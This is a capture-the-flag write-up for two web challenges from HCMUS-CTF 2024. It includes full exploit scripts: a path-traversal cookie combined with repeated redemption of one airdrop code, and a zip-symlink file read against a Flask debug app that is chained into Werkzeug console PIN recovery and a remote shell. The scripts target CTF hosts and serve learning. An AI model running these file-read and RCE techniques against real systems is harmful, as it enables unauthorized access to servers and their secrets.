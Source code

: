 ```yaml
---
title: HCMUS-CTF(Qualification) 2024 Writeup
published: 2024-12-01
description: 'Writeup for HCMUS-CTF 2024'
image: ''
tags: [web, ctf, writeup]
category: 'writeup'
draft: false 
lang: ''
---
```


## Web
### BP Airdrop
**Description**
A free airdrop website for everyone! Come and get your free BP!

**Analyze**
When I read the source code I come across this `let file = __dirname + '/../data/account/' + username + '.json';`
So I think to myself, why the website just let me login with any username and no password? Is that the hint? 

Then I try to path traversal with username = "../logs". Then I don't know what to do next :)). It is kind of a lucky challenge for me. I try to fucking around with the web application and see this weird behaviour:

1. Redeem the code "wqry-pmpo-tzve-mbk3"
2. Go to /api/logs
3. Go to /redeem and redeem the same code again, get extra balance
4. Loop 1000 times to get the flag =))

Then I write the exploit script as fast as I could and don't even look back and understand why because my team is in a rush, maybe in the next day I will look at it again.
**Exploit script**
```
import requests
import time
url1 = "http://chall.blackpinker.com:33415/api/logs"

cookies = {
    "username": "Li4vbG9n",
}

url2 = "http://chall.blackpinker.com:33415/redeem"
data = {
    "airdropCode":"wqry-pmpo-tzve-mbk3"    
}


for i in range(0, 1000):
    responseGet = requests.get(url1, cookies=cookies)
    responsePost = requests.post(url2, cookies=cookies, data=data)
    if(i % 10 == 0):
        time.sleep(1)
```

**Flag**: HCMUS-CTF{5trIct_eqU@l!Ty_!SN't_!T_101193d7181cc883}
Look likes it related to strict equality , hmm ?
### FlashyZ
**Description**
A simple web service which will unzip your files in a flash!

Hint: Flask debug is not good for production

Hint 2: Do you know about symlink?

**Analyze**
The hint has help my team a lot, with the hint my team is able to find 3 links:
1. https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
2. https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload
3. https://github.com/Ruulian/wconsole_extractor

The first link basically said when flask app is in debug mode, we can get RCE but with a condition: a function to read arbitrary file on the server. If that happen, we can use the tool in the 3rd link to automatically exploit the server and get the RCE.

So I try to find way to get the content of arbitary file => Which is the tips in the second link: Upload a zip file that contain symlinks to the target file on the server so when the server unzip it, we can read the content of the symlinks.

In the process of use the tool in 3rd link, I came across some bug that require me to manually edit the source code of the tool, then I realized I have to specify the python and werkzeug version in the tool's source code

```
self.python_version = "3.10.15"
self.werkzeug_version = "3.1.3"
```

Here are the exploit script:
```
import os
import zipfile
import requests
from bs4 import BeautifulSoup
import re

SYMLINK_PATH = "symindex.txt"
ZIP_FILENAME = "test.zip"
UPLOAD_URL = "http://chall.blackpinker.com:33697/upload"  
def upload_file():
    try:
        with open(ZIP_FILENAME, 'rb') as f:
            files = {'file': (ZIP_FILENAME, f)}
            response = requests.post(UPLOAD_URL, files=files)
            # print(response.text)
            soup = BeautifulSoup(response.text, 'html.parser')
            link = soup.find('a', href=True)
            
            if link:
                href = link['href']
                print(f"Full link: {href}")
                
                match = re.search(r'/list/([a-f0-9\-]+)', href)
                if match:
                    uuid = match.group(1)
                    print(f"Extracted UUID: {uuid}")
                    return uuid
                else:
                    print("No UUID found in the link.")
            else:
                print("No link found in the response.")
    except Exception as e:
        print(f"Error uploading file: {e}")
        raise

from main import WConsoleExtractor, info

def leak_function(filename) -> str:
    filename = "../../.." + filename
    print(filename)
    if os.path.exists(SYMLINK_PATH):
        os.remove(SYMLINK_PATH)
    if os.path.exists(ZIP_FILENAME):
        os.remove(ZIP_FILENAME)
    os.system(f"rm symindex.txt; sudo ln -s {filename} symindex.txt")
    os.system(f"sudo zip --symlinks test.zip symindex.txt")
    upload_file()
    uuid = upload_file()
    r = requests.get(f"http://chall.blackpinker.com:33697/view/{uuid}/symindex.txt")
    if r.status_code == 200 and "<!DOCTYPE html>" not in r.text:
        return r.text
    else:
        return ""

# print(leak_function("/etc/machine-id"))
extractor = WConsoleExtractor(
    target="http://chall.blackpinker.com:33697",
    leak_function=leak_function,
)

info(f"PIN CODE: {extractor.pin_code}")
extractor.shell()
        

```

**Flag**: HCMUS-CTF{symply_unzip2rce_23fe1ecf18f7617f}

